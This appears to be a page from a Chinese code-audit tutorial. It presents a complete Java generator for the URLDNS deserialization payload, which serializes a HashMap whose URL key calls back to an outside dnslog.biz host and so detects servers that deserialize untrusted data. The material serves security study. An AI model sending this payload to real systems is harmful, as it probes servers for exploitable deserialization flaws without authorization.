

# 代码审计-源码分析
最终的PalyLoad：
序列化：
public class DnsUrlT {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> urlIntegerHashMap = new HashMap<>();
        URL url = new URL("http://c4c2b65d.log.dnslog.biz");
        Class clz = URL.class;
        Field hashCode = clz.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,111);
        urlIntegerHashMap.put(url,123);
        hashCode.set(url,-1);
        Serialize(urlIntegerHashMap);
    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("DnsUrl.ser"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
}
140